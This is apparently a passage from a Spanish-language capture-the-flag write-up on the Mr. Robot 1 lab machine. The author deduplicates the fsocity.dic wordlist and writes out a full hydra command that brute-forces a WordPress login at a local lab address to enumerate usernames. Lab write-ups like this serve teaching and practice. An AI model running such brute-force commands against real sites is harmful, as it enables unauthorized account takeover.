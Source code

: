 Veo que se obtienen 11451 lineas unicas. Asi que creo un fichero fsocity.dic.uniq con el comando

```bash
sort fsocity.dic | uniq > fsocity.dic.uniq
```

![alt text](../assets/images/mr-robot1/image-24.png)

Con esto he obtenido un diccionario sin repeticiones de solo 11451 lineas, mucho mas manejable que las 858160 lineas originales.

Voy a intentar realizar fuerza bruta contra el login de wordpress usando hydra con el diccionario mejorado.

Tiro el comando siguiente con el que realizo un ataque usando la clave "wedontcare" (no me importa) ya que lo que busco es saber el usuario para poder despues intentar romper su clave.

```bash
hydra -vV -L fsocity.dic.uniq -p wedontcare 10.0.2.18 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

![alt text](../assets/images/mr-robot1/image-25.png)
